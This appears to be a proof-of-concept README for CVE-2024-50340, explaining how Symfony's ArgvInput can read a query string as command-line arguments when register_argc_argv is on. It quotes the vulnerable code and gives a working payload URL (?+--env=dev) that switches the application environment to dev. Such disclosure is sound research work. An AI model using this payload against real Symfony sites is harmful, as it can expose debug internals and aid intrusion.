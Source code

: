 # CVE-2024-50340 POC

## Requirements 
The register_argc_argv option must be enabled in the PHP configuration file (php.ini). This setting loads command-line arguments into $_SERVER['argv'].

## Explanation of Vulnerable Code
This Symfony code uses input arguments (ArgvInput) to determine the values of certain environment variables, specifically APP_ENV and APP_DEBUG. Here are the relevant parts of Symfony’s code:
```php
//Symfony\Component\Runtime\SymfonyRuntime
$input = new ArgvInput();

if (isset($this->options['env'])) {
    return $this->input = $input;
}

if (null !== $env = $input->getParameterOption(['--env', '-e'], null, true)) {
    putenv($this->options['env_var_name'].'='.$_SERVER[$this->options['env_var_name']] = $_ENV[$this->options['env_var_name']] = $env);
}

if ($input->hasParameterOption('--no-debug', true)) {
    putenv($this->options['debug_var_name'].'='.$_SERVER[$this->options['debug_var_name']] = $_ENV[$this->options['debug_var_name']] = '0');
}
```

The code above processes arguments provided through ArgvInput. If the --env parameter is specified in argv, it updates the environment variable APP_ENV accordingly. Similarly, if --no-debug is present, it sets APP_DEBUG to 0.

### The ArgvInput Class
The ArgvInput class initializes argv parameters passed via the command line or, by default, those in $_SERVER['argv']. The array_shift($argv); function removes the first element from the $argv array (normally the application name) and stores the remaining arguments in $this->tokens.

```php
//Symfony\Component\Console\Input\ArgvInput
public function __construct(?array $argv = null, ?InputDefinition $definition = null)
{
    $argv ??= $_SERVER['argv'] ?? [];

    // strip the application name
    array_shift($argv);

    $this->tokens = $argv;

    parent::__construct($definition);
}
```
## PoC Example
Using the following URL: http://localhost/?+--env=dev, we can inject a --env=dev argument into $_SERVER['argv']. This allows us to change the APP_ENV value to dev without modifying the application’s configuration directly.
1. When accessing http://localhost/?+--env=dev, $_SERVER['argv'] might look like this:
```php
$_SERVER['argv'] = ["+--env=dev"];
```
2. In the ArgvInput class, after the array_shift operation, $argv becomes:
```php
$argv = ["--env=dev"];
```
3. ArgvInput will then recognize --env=dev as a valid parameter and will update APP_ENV accordingly through the getParameterOption method.

